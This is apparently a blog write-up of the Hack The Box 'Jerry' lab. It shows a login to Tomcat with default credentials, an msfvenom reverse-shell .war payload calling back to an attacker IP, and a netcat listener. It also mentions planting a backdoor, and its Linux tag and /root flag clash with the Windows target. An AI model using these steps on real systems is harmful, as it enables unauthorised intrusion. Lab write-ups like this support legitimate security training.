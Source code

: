 ```yaml
---
title: "HTB | JERRY"
date: 2024-07-31 00:00:00 +0800
categories: [HTB]
tags: [Linux]                    
---
```


![img-description](/assets/img/HTB/htb.png)

## Initial Access - Default credentials to Apache Tomcat leads to malicious file upload

**Vulnerability Explanation:** The webserver on port 8080 uses Apache Tomcat. The server is using default credentials. With the credentialed access, a malicious .war file is able to be uploaded in order to gain remote access to the machine.

**Vulnerability Fix:** Change the default credentials to secure credentials.

**Severity:** Critical

**Steps to reproduce the attack:** Christian discovered an Apache Tomcat server running on port 8080. It uses default credentials tomcat:s3cret. He was able to upload a malicious .war file to the server and access it to gain a reverse shell.

**Port Scan Results**

**TCP:** 8080

**UDP:** N/A

Use nmap to scan the target for open ports.

TCP port 8080 was discovered.

```shell
sudo nmap -p- -T5 -vvv 10.10.10.95 -oN nmap.initial
```

![img-description](/assets/img/HTB/JERRY/1.png)
Navigating to the site on port 8080 reveals Apache Tomcat 7.0.88 running. 
![img-description](/assets/img/HTB/JERRY/2.png)
Able to login with the default credentials of **tomcat:s3cret**
![img-description](/assets/img/HTB/JERRY/3.png)
We're able to upload a 'WAR' file. This will allow us to gain a shell on the system if we're able to access the file we upload.
![img-description](/assets/img/HTB/JERRY/4.png)
Create a malicious .war file using msfvenom and see the contents using 'jar'

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=4444 -f war > shell.war
```
![img-description](/assets/img/HTB/JERRY/5.png)
```
jar -ft shell.war
```
![img-description](/assets/img/HTB/JERRY/6.png)
Start a netcat listener on port 4444. Upload the file and navigate to the .jsp file in the web browser.
```
nc -nlvp 4444
```
![img-description](/assets/img/HTB/JERRY/7.png)
We have successfully got initial access to the machine as 'nt authority'. 

'nt authority' is a high privileged user so privilege escalation is not needed.

## Privilege Escalation - N/A

**Vulnerability Explanation:** N/A

**Vulnerability Fix:** N/A

**Severity:** N/A

**Steps to reproduce the attack:** N/A

## Post Exploitation

Since this is a CTF the objective is only to retreive the flag located in the /root directory as a privileged user. 

In a real world assessment, we would attempt to add a back door for continuous access to the machine.